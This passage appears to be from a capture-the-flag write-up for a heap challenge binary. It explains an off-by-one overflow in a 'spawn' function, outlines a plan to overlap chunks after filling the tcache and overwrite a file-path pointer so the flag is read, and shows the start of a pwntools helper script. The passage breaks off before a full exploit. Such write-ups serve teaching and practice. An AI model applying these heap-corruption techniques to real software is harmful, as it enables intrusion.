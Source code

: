 
Basically, the `spawn` function allocates a player chunk (as a char \* with maximum size of 200) with the following structure:
```C
struct player
{
	char ID;
	int vx;
	int vy;
	char desc[size-12];
};
```


`kill` frees the chunk and marks a global array (no double free nor UAF). This means that if we killed someone, the ID is still there on our map. The `save` feature concatenates `player->ID` and save it to a file under `/tmp` directory. Load directly opens the file and load characters into our map. 


The vulnerability is in `spawn` function:
```C
...
ptrs[y*width+x] = malloc(size+11);
printf("Description: ");
int len = readline(s,size) // returns n byte read
players[y*width+x]->ID = ID;
players[y*width+x]->vx = vx;
players[y*width+x]->vy = vy;
memcpy(players[y*width+x]->desc,s,len) // VULN
...
```
If we allocate for example 0x88 bytes, we can overwrite the size field of next chunk. With almost all mitigations enabled and no easy leak, how are we able to exploit the binary ?


### Exploitation


The `load` function opens a file from a pointer in heap (allocated in the beginning). If we're able to overwrite the pointer's content, we can read the flag's content into our map!


With the one byte overflow, we can [overlap chunks](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/overlapping_chunks.c) between two smallbin chunks; But first, we need to fill the tcache. Here's initial script:
```Python
def setup_game(w,h,savename=''):
	r.sendlineafter("code: ",savename)
	r.sendlineafter("Width: ",str(w))
	r.sendlineafter("Height: ",str(h))

def move():
	r.sendlineafter("> ",'1')

def spawn(ID,sx,sy,vx,vy,len,desc):
	r.sendlineafter("> ",'2')
	r.sendlineafter("X: ",str(sx))
	r.sendlineafter("Y: ",str(sy))
	r.sendlineafter("ID: ",ID)
	r.sendlineafter("X: ",str(vx))
	r.sendlineafter("Y: ",str(vy))
	r.sendlineafter("length: ",str(len-11))
	r.sendlineafter("Description: ",desc[:len-11])

def kill(x,y):
	r.sendlineafter("> ",'3')
	r.sendlineafter("X: ",str(x))
	r.sendlineafter("Y: ",str(y))

```